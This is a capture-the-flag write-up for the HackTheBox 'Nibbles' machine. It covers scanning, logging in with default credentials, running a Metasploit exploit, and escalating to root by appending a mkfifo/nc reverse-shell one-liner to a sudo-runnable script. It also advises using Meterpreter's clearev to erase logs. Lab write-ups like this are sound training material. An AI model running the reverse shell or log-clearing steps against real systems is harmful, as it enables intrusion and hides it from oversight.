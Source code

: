 [Back to Main Page](../index.html) 

# Nibbles on HackTheBox





## Introduction

--

## 1. Initial Scanning

As usual we only have the IP so we start an nmap scan.

`nmap 10.10.10.68`

![1nmap](https://i.imgur.com/2rih64N.png)

nmap did find SSH and Port 80.
Due this we check out the webpage and look closer at the source code.

![1source](https://i.imgur.com/lYBc5oS.png)

Intersting. /nibbleblog/
Therefore we use nibble against /nibbleblog/. DIRB is a Web Content Scanner.
`dirb http://10.10.10.75/nibbleblog/`

![1source](https://i.imgur.com/lYBc5oS.png)

It shows admin.php, which is an login interface.

## 2. Using the basics to get access

Before trying to break into it, always try some defaults. admin:nibbles

![1break](https://i.imgur.com/17wiJUm.png)

We're in! After a while of searching I decided to check for exploits. We just searched for nibble. 
 
`searchsploit nibble`

![1search](https://i.imgur.com/rFxtQsi.png)

## 3. Exploit

![1splot](https://i.imgur.com/CISJNvpg.png)

Setup the exploit. Additional we set the Listerner LHOST to our IP and LPORT to 4000.
After that we fired it up.

![2splot](https://i.imgur.com/ZE648q2.png)

## 4. Capturing the Flag

Somebody left the flag after exploiting the monitor.sh in the /tmp/ folder, but I wanted to get it for real myself.
I found a zip within home/nibbler with a monitor.sh in it.

![1ctf](https://i.imgur.com/HfUWxlj.png)

After that I did set up a nc listener on post 2491 and added following command into the monitor.sh file.

`echp "rm/tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.XXX 2491 >/tmp/f" >> monitor.sh`

Thank you for that command @sicurolab.

![2ctf](https://i.imgur.com/ANHg0Jv.png)

We then execute the monitor.sh file with /usr/bin/sudo and receive our root shell.

![3ctf](https://i.imgur.com/J05iDMS.png)

`cat root.txt` - system flag captured!

## 8. Cleanup
 
Firstup I cleaned the whole /tmp/ folder to make it harder for future players. 
Since this is a CTF, cleanup isn’t mandatory.
However, we want to develop good habits and operational security practice. Meterpreter has a `clearev` command that can be used to cover our tracks - let’s run it and be out of here.









